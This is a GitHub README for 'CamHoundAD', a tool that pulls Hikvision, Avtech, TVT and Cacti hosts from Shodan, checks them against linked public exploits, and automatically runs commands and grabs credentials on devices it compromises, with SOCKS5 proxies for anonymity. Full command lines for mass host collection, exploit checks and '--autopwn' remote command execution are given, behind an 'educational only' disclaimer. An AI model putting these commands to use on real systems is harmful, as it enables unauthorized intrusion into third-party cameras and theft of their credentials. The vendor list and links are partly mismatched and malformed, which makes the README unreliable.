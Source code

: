 # CamHoundAD

<a href="https://github.com/pxcs/CamHoundAD/"><p align="center">
<img src="/screenshots/cctv.jpg">
</p></a>

This is a tool meant to assist **Cyber Security** researchers on discovering outdated and vulnerable camera systems on the internet by utilizing [shodan.io](shodan.io). I was able to discover thousands of vulnerable cameras using it. It could be for Cammera Attacks research, CCTV's Attacks research, etc.

# Vendors Affected

>- [+] Hikvision

>- [+] Nikon

>- [+] Avtech

>- [+] GoPro

>- [+] TVT

>- [+] Cacti

Coming Soon . . .

# Features

- Fetching of hosts from shodan.io
   - [Attacks Key](shodan.io)
- Check for vulnerable cameras
- Automatically run commands on exploited Devices
- Automatically grab camera credentials
- Multi-threading for faster scanning
- Usage of Socks5 proxies for anonymity
- Storing results in Sqlite3 database
- Logging all actions in log files 

# Prerequisites

To use this tool you need to have the following:
- Shodan API Key
- Socks5 authenticated proxies

# Installation

```python
git clone https://github.com/pxcs/CamHoundAD
pip install -r requirements.txt
python3 scanner.py --help
```

# Usage

## Collect hosts in database

```python
# Collect Hikvision hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Hikvision IP Camera"' --pages 1

# Collect Avtech hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'linux upnp avtech' --pages 1

# Collect TVT hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Cross Web Server"' --pages 1

# Collect Cacti hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'Login to Cacti' --pages 1
```

## Check hosts for exploit

```python
python3 scanner.py --check --proxy-file proxies.txt --threads 20
```

## Automatically run command on exploited hosts

```python
python3 scanner.py --autopwn --proxy-file proxies.txt --payload "id"
```

# About CamHoundAD

This tool is purely educational and is inteded to make the internet more secure. **I will not be responsible for any direct or indirect damage caused due to the usage of this tool, it is for educational purposes only.** Any PR's or suggestions on improving this project are welcome

## Exploits Used

[[+] Exploit-db](https://www.exploit-db.com/exploits/40500)

[[+] Exploit-db](https://www.exploit-db.com/exploits/50441)

[[+] RCE](https://github.com/k1p0d/h264_dvr_rce)

[[+] CVE](https://github.com/sAsPeCt488/CVE-2022-46169)
